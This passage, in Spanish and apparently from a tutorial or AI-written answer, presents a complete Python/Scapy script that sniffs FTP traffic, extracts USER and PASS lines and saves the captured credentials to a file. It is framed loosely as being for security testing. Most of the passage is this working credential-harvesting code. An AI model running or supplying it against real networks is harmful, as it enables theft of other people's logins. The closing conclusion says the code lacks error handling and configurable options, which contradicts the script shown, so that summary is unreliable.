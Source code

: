 6. **Detención Controlada**:
   - Agregar un mecanismo para detener la captura después de un tiempo o al capturar credenciales específicas.
   ```python
   sniff(iface="eth0", prn=analisis, filter="tcp port 21", store=0, timeout=60)
   ```

---

### **(Ejemplo)**

```python
from scapy.all import sniff, Raw
import argparse
import re

def analisis(paquete):
    if paquete.haslayer(Raw):
        try:
            texto = paquete[Raw].load.decode('utf-8', errors='ignore')
            if re.search(r'^(USER|PASS)\s+(.+)$', texto):
                credencial = texto.strip()
                print(f"[+] Capturado: {credencial}")
                with open('credenciales.txt', 'a') as f:
                    f.write(f"{credencial}\n")
        except Exception as e:
            print(f"[-] Error al procesar paquete: {e}")

def main():
    parser = argparse.ArgumentParser(description="Captura credenciales FTP")
    parser.add_argument('--iface', default='eth0', help='Interfaz de red')
    parser.add_argument('--timeout', type=int, default=60, help='Tiempo de captura (segundos)')
    args = parser.parse_args()

    print(f"[*] Capturando en {args.iface} durante {args.timeout} segundos...")
    sniff(iface=args.iface, prn=analisis, filter="tcp port 21", store=0, timeout=args.timeout)

if __name__ == "__main__":
    main()
```

**Mejoras Incluidas**:
- Manejo de errores.
- Filtrado con expresiones regulares.
- Guardado de credenciales en un archivo.
- Configuración mediante argumentos de línea de comandos.
- Límite de tiempo para la captura.

---

### **Conclusión**
El código proporcionado es una versión optimizada y eficiente de los scripts anteriores, utilizando procesamiento en tiempo real (`prn=analisis`) y evitando el almacenamiento de paquetes (`store=0`). Se enfoca en capturar credenciales FTP (`USER`, `PASS`) en la interfaz `eth0`, siendo ideal para pruebas de seguridad o demostraciones educativas. Sin embargo, carece de manejo de errores y opciones configurables, que pueden añadirse para hacerlo más robusto.
